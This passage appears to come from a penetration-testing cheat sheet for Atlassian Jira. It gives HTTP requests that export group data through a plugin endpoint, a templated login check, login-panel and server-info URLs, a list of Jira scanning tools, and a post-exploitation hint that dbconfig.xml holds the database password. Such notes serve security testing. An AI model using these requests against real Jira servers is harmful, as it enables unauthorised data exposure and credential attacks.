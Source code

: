 Copy

```
POST /plugins/servlet/groupexportforjira/admin/json HTTP/1.1
Host: <JIRA>
Content-Type: application/x-www-form-urlencoded

groupexport_searchstring=&groupexport_download=true
```

***

#### Other <a href="#other" id="other"></a>

**Jira Login Check**

Copy

```
POST /rest/gadget/1.0/login HTTP/1.1
Host: <JIRA>
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Connection: close

os_username={{username}}&os_password={{password}}
```

**Atlassian Crowd Login Panel**

`https://<JIRA>/crowd/console/login.action`

**Jira Rest API Server Information**

`https://<JIRA>/rest/api/latest/serverInfo`

**Jira Service Desk Login Panel**

Copy

```
https://<JIRA>/servicedesk/customer/user/login"
https://<JIRA>/servicedesk/customer/portal/10/user/login"
```

***

#### Tools <a href="#tools" id="tools"></a>

Copy

```
- https://github.com/0x48piraj/Jiraffe
- https://github.com/random-robbie/Jira-Scan
- https://github.com/bcoles/jira_scan
- https://github.com/justSTAG/jirascan
- https://posts.specterops.io/sowing-chaos-and-reaping-rewards-in-confluence-and-jira-7a90ba33bf62
- https://github.com/MayankPandey01/Jira-Lens
- https://github.com/NetSPI/JIG
- https://github.com/netspooky/jLoot
```

### Post-Exploit <a href="#post-exploit" id="post-exploit"></a>

`dbconfig.xmlpasswd` contains database password
